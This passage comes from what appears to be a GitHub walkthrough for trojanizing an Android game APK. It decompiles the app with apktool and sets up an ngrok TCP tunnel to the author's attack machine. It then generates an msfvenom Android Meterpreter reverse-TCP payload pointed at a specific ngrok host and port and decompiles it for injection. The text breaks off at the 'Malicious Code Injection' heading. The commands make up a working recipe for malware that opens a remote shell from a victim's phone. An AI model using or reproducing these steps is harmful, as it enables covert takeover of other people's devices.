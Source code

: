 ```apktool d FlappyBird.apk -o app_decoded```
#### Ngrok Tunnel Configuration

To establish a connection pathway from the victim device to my attack infrastructure, I configured Ngrok to create a secure tunnel. Ngrok provides a public endpoint that forwards traffic to our local attack machine.

##### Command executed:

```ngrok tcp 4444```

Command's output:

![Output ngrok](images/ngrok.png)

#### Ngrok Tunnel Operation Details:

When executing the ```ngrok tcp 4444``` command, a secure connection is established between the local computer and Ngrok's servers. This process creates a tunneling mechanism that operates as follows:

1. **Public Service Exposure**: Ngrok initiates a procedure that publicly exposes any TCP service listening on port 4444 of the local computer to the Internet.
2. **Dynamic Address Assignment**: The service provides a public address in the format ```tcp://X.tcp.ngrok.io:YYYYY```, where:
 - ```X``` represents a randomly assigned hostname by Ngrok servers
 - ```YYYYY``` represents a randomly assigned port number by Ngrok servers

3. **Tunnel Establishment**: A secure tunnel is established between the local computer and Ngrok’s servers. The Ngrok client receives incoming traffic through this tunnel and forwards it locally to port 4444 on the machine executing the command.
This setup creates a bidirectional communication channel, where external traffic sent to the public Ngrok endpoint is seamlessly forwarded to the local service.

**NAT Traversal Capability**: This service enables the creation of virtual connections between two devices even when both have private IP addresses, effectively bypassing Network Address Translation (NAT) restrictions.

In our demonstration, TCP traffic directed to the address ```6.tcp.eu.ngrok.io:16690``` is automatically transmitted by Ngrok to port 4444 of the attacker's computer, creating a seamless communication channel that bypasses typical network security barriers.

![ngrok map](images/ngrokmap.jpg)


### 3. Payload Generation

#### Msfvenom Payload Creation

Using Metasploit's msfvenom tool, I generated a malicious Android payload configured to establish a reverse TCP connection to our Ngrok endpoint.

##### Command executed:

```msfvenom -p android/meterpreter/reverse_tcp LHOST=6.tcp.eu.ngrok.io LPORT=16690 -o payload.apk```

##### Payload decompilation:

```apktool d payload.apk -o payload_decoded```

This provides the necessary Smali code and resources to implement reverse shell functionality.

### 4. Malicious Code Injection

```